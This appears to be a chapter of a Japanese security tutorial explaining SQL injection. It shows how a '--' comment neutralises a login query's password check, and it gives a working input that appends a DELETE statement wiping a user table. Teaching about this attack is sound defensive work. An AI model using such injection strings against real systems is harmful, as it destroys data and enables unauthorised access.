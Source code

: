 ```yaml
---
chapter_no: 30
chapter_title: ケース３ SQLインジェクション攻撃による任意のSQL文実行 〜コメントアウトで無効化〜
created: 2008-04-12
updated: 2021-04-01
---
```

更に応用例として、コメントアウト「`--`」を使用してパスワード入力部分のSQLを無効化する手法をご紹介しましょう。

### 攻撃手法
利用するテーブルは[ケース１](#ケース１ SQLインジェクション攻撃による不正ログイン 〜シングルクォート挿入〜)と同じものとして、以下のようにパラメータを入力してみます。

<table class="normal">
	<tr>
		<th markdown="span">パラメータ</th>
		<th markdown="span">入力する値</th>
	</tr>
	<tr>
		<td><span class="code-font">$userId</span></td>
		<td><span class="code-font">'; DELETE FROM ユーザマスタ WHERE 'A' = 'A' --</span></td>
	</tr>
	<tr>
		<td><span class="code-font">$passwd</span></td>
		<td><span class="code-font">(何も入力しない)</span></td>
	</tr>
</table>

これで、以下のようなSQL文が実行される。

```:SQL
SELECT * FROM ユーザマスタ WHERE ユーザID = '';
DELETE FROM ユーザマスタ WHERE 'A' = 'A' {em{--' AND パスワード = ''}em}
```

「`--`」以下の「`' AND パスワード = ''`」の部分はコメントアウトされるので無効となり、結果として[ケース２](#ケース２ SQLインジェクション攻撃による任意のSQL文実行 〜セミコロンで分割〜)と同様に全件削除のSQL文として機能します。